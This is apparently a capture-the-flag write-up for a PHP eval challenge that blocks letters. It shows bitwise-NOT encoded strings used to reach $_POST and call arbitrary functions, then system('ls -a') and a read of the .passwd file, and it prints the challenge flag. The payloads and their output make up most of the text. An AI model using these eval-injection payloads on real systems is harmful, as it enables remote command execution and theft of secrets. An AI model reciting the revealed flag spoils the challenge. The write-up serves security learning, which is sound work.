



Here the challenge is very similar to https://avishaigonen123.github.io/CTF_writeups/websec.fr/level14.html.
We can't insert any letters.

In the previous challenge I referred to, I gave this:
```
${~'%A0%B8%BA%AB'}{0}('DD');
``` 
This stands for: `$_GET[0]('DD')`, because `~'%A0%B8%BA%AB'` is `_GET`, and then when doing `${_GET}{0}` is like `$_GET[0]`, and lastly we inject `('DD')` to activate the function we're gonna inject inside param `0`.

In my case, I wanted to use `POST`, so this will be done using `hex_dump` function.

We use this hex_dump php function, which is took from here [stackoverflow - php hexdump function](https://stackoverflow.com/a/4225813)
```php
function hex_dump($data, $newline="\n")
{
  static $from = '';
  static $to = '';
  
  static $width = 16; # number of bytes per line
  
  static $pad = '.'; # padding for non-visible characters
  
  if ($from==='')
  {
    for ($i=0; $i<=0xFF; $i++)
    {
      $from .= chr($i);
      $to .= ($i >= 0x20 && $i <= 0x7E) ? chr($i) : $pad;
    }
  }
  
  $hex = str_split(bin2hex($data), $width*2);
  $chars = str_split(strtr($data, $from, $to), $width);
  
  $offset = 0;
  foreach ($hex as $i => $line)
  {
    echo sprintf('%6X',$offset).' : '.implode(' ', str_split($line,2)) . ' [' . $chars[$i] . ']' . $newline;
    $offset += $width;
  }
}
```



Okay, so this will be our payload:
```
input=${~'%a0%af%b0%ac%ab'}{0}(1337);&0=strlen
```
And of course it prints `4`, because this is the process that's been done:
```
${_POST}{0}(1337);&0=strlen
```
```
$_POST[0](1337);&0=strlen
```
```php
strlen(1337)
```
```php
eval("print strlen(1337)")
```


Now, let's inject another `_POST`, for the function param:
```
input=${~'%a0%af%b0%ac%ab'}{0}(${~'%a0%af%b0%ac%ab'}{1});&0=strlen&1=myParameter
```
The result is `11`, `strlen('myParameter')`.

Now, let's give the `system` function.

I tried to create a reverse shell, but didn't manage to, maybe they blocked it. Whatever, let's just poke around and find the flag.

This is our payload, we go for `ls -a`
```
input=${~'%a0%af%b0%ac%ab'}{0}(${~'%a0%af%b0%ac%ab'}{1});&0=system&1=ls -a
```

The output:
```bash
.
..
._nginx.http-level.inc
._nginx.server-level.inc
._perms
._php-fpm.pool.inc
.git
.passwd
ch57.s
index.php
index.php
```

Now, let's read `.passwd`

And we got: 
```
M!xIng_PHP_w1th_3v4l_L0L
```



**Flag:** **_`M!xIng_PHP_w1th_3v4l_L0L`_**